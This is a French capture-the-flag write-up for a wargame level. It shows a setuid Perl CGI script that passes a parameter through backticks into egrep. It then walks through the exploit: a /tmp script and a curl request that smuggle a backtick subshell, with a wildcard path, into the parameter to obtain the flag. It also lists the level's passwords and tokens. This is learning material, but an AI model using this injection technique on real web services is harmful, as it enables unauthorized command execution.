# Level12: Exploit subshell dans un script perl

> login:password -> *`level12:fa6v5ateaw21peobuub8ipe6s`*
```
:~$ su level12
Password:fa6v5ateaw21peobuub8ipe6s
```
---

```
:~$ pwd
/home/user/level12
```

```
:~$ ls -la
...
-rwsr-sr-x+ 1 flag12  level12  464 Mar  5  2016 level12.pl
...
```

Le Home contient un script perl :

```
:~$ cat level.pl
#!/usr/bin/env perl
# localhost:4646 (ici indique qu'il écoute sur le port :4646)
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/; (ici transforme le lowercase en uppercase)
  $xx =~ s/\s.*//; (ici supprime tout ce qui va suivre un espace)
  @output = `egrep "^$xx" /tmp/xd 2>&1`; (ici il execute le pametre en effectuant une substitution avant. C'est une faille)
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }
}
(ici print "." ou ".." en fonction du nombre de paramétres)

n(t(param("x"), param("y"))); (ici prends 2 paramétres x et y)
```

On remarque que le script est un serveur qui écoute sur le port `:4646` et utilise un `egrep`. On peux aussi voir que le script prends 2 paramétres `x` et `y`, et que le fichier passé  en `x` doit forcément être en masjuscule, car une regex passe cet argument en uppercase, tandis que l'argument `y` n'est juste pas utilisé.\

On va alors créer un script en se déplaçant dans `/tmp` que l'on pourra appeler depuis level12.pl ne prenant soin de respecter quelques étapes, dont la plus importante, le nom du script devra être en majuscule.

```
:~$ cd /tmp

:~$ echo "getflag > /tmp/flag12" > GETFLAG

:~$ chmod 777 GETFLAG (ici je lui donne des droits, sinon il ne pourra pas utiliser la commande `getflag`)

:~$ cd

:~$ curl 'localhost:4646/?x=`/*/GETFLAG`' (ici j'utilise une `*` pour éviter le passage du caractère en uppercase)

:~$ cat /tmp/flag12
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr

```

Le flag nous permet de se connecter au level13
`level13:g1qKMiRpXf53AWhDaU7FEkczr`